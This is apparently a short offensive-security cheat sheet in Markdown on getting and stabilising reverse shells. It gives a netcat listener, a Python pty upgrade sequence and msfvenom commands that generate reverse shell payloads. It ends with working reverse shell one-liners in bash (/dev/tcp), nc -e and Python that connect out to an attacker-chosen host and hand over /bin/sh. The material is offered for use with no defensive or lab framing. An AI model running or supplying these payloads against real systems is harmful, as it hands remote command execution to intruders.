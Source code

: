 # Online help

**Online rshell**

- [Reverse Shell Generator (revshells.com)](https://www.revshells.com/)

**Online shell check**

- [ShellCheck – shell script analysis tool](https://www.shellcheck.net/)
- [explainshell.com - match command-line arguments to their help text](https://explainshell.com/)

# Better shell

```bash
# Host
rlwrap sudo nc -lvnp 4444
# Remote
export TERM=xterm-color
dpkg -l | grep python
python -c 'import pty;pty.spawn("/bin/bash")'
##ctrl+z
stty raw -echo; fg
```

# Reverse Shell

**msf gen**

```bash
msfvenom -p cmd/unix/reverse_python lhost=<ip> lport=<port> -f raw
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Host> LPORT=<p> -f elf -o rshell.elf
```
**several langs**

```bash
bash -i >& /dev/tcp/<local>/2233 0>&1

nc -e /bin/sh <host> 4444

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```